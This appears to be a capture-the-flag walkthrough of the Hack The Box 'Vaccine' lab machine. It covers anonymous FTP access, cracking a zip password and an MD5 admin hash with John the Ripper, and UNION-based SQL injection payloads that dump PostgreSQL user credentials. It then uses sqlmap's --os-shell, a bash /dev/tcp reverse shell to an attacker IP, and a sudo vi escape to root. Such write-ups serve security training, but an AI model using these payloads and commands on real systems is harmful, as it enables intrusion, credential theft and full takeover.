


Vaccine
Port Scan
FTP
I saw open FTP port. I tried anonymous and got in.
I got the backup.zip
Password Cracking
I tried to unzip it but I needed a password. I used zip2john to crack the password.
zip2john backup.zip > hash.txt
Then I unzipped it with the password.
Then I read index.php

Here I found a hash for the admin user. Now I will try to crack it as well. Also, it is helpful to know that it is md5 hash
I put the hash into md5_hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt md5_hash.txt
The Website
I used the found creds to get inside:
admin:qwerty789
I tried to search for something and noticed this:
We can see that we have at list 4 columns that we can see which are: name, type, fuel, engine. Number of columns is important for us, so that we can do SQL Injections.
Also, we can assume that there is one more column id because it is usually there.
A good way to find out what kind of database we are dealing with is to get it's version. After spending a few minutes trying to figure out the right payload I got this:
1' UNION SELECT NULL, version(), NULL, NULL, NULL-- -
I am going to get some more information about the table and database that we are working with.
1' UNION SELECT NULL, column_name, data_type, NULL, NULL FROM information_schema.columns WHERE table_name = 'cars';-- -
1' UNION SELECT NULL, table_name, table_type, NULL, NULL FROM information_schema.tables;-- -
1' UNION SELECT NULL, column_name, data_type, NULL, NULL FROM information_schema.columns WHERE table_name='pg_user';-- -
1' UNION SELECT NULL, username, passwd, NULL, NULL FROM pg_user;-- -
sqlmap
I could continue doing this and maybe eventually I would get somewhere, but I decided to use a tool called sqlmap
sqlmap -u "http://vaccine.htb/dashboard.php" --data="search=1" --cookie="PHPSESSID=fft7sn59udmovaau1lqc7mrlbd"
So now we know it is vulnerable.
sqlmap -u "http://vaccine.htb/dashboard.php" --data="search=1" --cookie="PHPSESSID=fft7sn59udmovaau1lqc7mrlbd" --os-shell --batch
I used --os-shell to get a shell and --batch so it doesn't ask me all the questions.
Since this shell was so ugly, I decided to get a better reverse shell. So I started nc listener and put this command in:
bash -c "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1"
Also, I found postgres' id_rsa, I got it on machine, and ssh'ed inside. I tried to execute sudo -l but it did not give me much. So I decided to do some research.
It is always a good idea to look at the website's source code.

Here is what I found when I was reading dashboard.php
Now with the password I execute sudo -l
Here I find out that I can run /bin/vi /etc/postgresql/11/main/pg_hba.conf with sudo as root. And that's what I do.
With knowing vi/vim well enough or at least knowing how to google would tell you that you can get a shell straight from vi using :!bash
Hit Enter and get your root shell.